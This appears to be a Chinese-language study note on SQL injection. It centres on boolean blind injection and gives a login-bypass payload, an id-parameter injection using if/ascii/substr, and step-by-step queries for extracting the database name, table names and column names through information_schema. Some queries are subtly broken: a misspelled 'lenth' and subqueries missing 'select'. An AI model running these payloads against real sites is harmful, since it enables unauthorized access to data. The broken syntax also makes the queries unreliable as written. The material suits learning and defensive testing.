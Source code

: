 ## 5. SQL注入
#sql #SQL注入
#information_schema
联合注入 => 报错注入 => bool盲注 => 时间盲注 => 二次注入
### 5.0 判断注入类型
- 整形（没有单双引号）
- 字符串（有单双引号）

### 5.1 布尔注入
==一般配套使用一些判断真假的语句来使用，and 1=1或者and 1=2，有的网页会过滤掉1=1，可以用1253=1253等其他payload替代==
```sql
select * from accounts where username = '' or true -- ' and password = ''
select mid("123456",1,3) -- 从第一个字节开始取到第三个字节包含1，3
select ORD() -- 转换成ASCII码
select lenth() -- 统计字节长度
select version() -- 查看数据库版本
select database() -- 查看数据库名
select user() -- 查看当前用户
select a from b where left(a,1) = 'a' -- 探测第一位，假设返回字符串是"admin"，则结果为真
select a from b where left(a,2) = "ad" -- 探测第二位是要把第一位带上
ascii() -- 通常与substr结合
hex() -- ascii函数被禁止或者需要把二进制数据写入文件时可以使用
if() -- if(condition,true result,false result)举例如下
?id=1 and 1=if(ascii(substr(user(),1,1))=97,1,2)
```
==使用sqlmap可能会误报，一些数据返回页面及接口返回数据时可能会存在返回的是随机字符串（如，时间戳或防止[[CSRF|CSRF]]的token等）会导致页面长度发生变化==
- 获取数据库长度

  ​	username=111’ or length(database())=8 # &password=222&act=tijiao

- 获取数据库名

  ​	ORD(mid(database(),1,1)) = ==x== 用数字夹逼范围 从第一个取，取一个

- 获取表的总数

  ​	select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database();

- 获取表名长度(逐个)

  ​	select lenth(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1= ==x==

- 获取表名

  ​	select ORD(mid((TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1)= ==x==

- 获取字段总数

  ​	select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=x

- 获取字段名

  ​	select ORD(mid((COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME limit 0,1),1,1)=x

